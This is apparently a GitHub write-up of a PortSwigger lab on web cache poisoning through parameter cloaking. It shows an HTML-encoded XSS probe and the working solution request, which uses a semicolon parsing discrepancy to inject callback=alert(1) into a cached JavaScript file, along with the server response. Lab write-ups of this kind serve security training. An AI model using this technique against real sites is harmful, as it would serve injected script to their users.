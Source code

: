 # [Lab: Parameter cloaking](https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-param-cloaking)

## Lab

This lab is vulnerable to web cache poisoning because it excludes a certain parameter from the cache key. There is also inconsistent parameter parsing between the cache and the back-end. A user regularly visits this site's home page using Chrome.

To solve the lab, use the parameter cloaking technique to poison the cache with a response that executes `alert(1)` in the victim's browser.

## Analysis

special characters to xss are html-encoded:

```http
GET /?utm_content='><img+src%3d1+onerror%3dalert()>// HTTP/1.1

HTTP/1.1 200 OK

<link rel="canonical" href='//id.web-security-academy.net/?utm_content=&apos;&gt;&lt;img src=1 onerror=alert()&gt;//'/>
```

## Solutions

a parsing discrepancy between the cache and the application: the application treats `;` as separator but the cache does not. => cache poisoning:

```http
GET /js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1) HTTP/1.1

HTTP/1.1 200 OK
Content-Type: application/javascript; charset=utf-8
Set-Cookie: utm_content=foo; Secure; HttpOnly
Cache-Control: max-age=35
Age: 0
X-Cache: miss

const setCountryCookie = (country) => { document.cookie = 'country=' + country; };
const setLangCookie = (lang) => { document.cookie = 'lang=' + lang; };
alert(1)({"country":"United Kingdom"});
```

cache:

- keyed: `callback=setCountryCookie`
- un-keyed: `utm_content=foo;callback=alert(1)`

server:

- keyed: `callback=setCountryCookie`
- un-keyed: `utm_content=foo`
- un-keyed and reflected in response:`callback=alert(1)`
